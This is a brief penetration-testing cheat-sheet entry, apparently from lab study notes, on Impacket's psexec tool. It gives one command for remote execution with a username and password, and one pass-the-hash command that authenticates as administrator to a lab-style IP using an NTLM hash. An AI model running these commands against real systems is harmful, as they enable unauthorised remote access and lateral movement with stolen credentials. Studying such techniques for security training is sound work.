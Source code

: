 Attacks: #PtH 

[Impacket PsExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) - Python PsExec like functionality example using [RemComSvc](https://github.com/kavika13/RemCom).
```shell-session
$ impacket-psexec <USER>:'<PASSWORD>'@<IP>
```
# Pass the Hash
```shell-session
$ impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```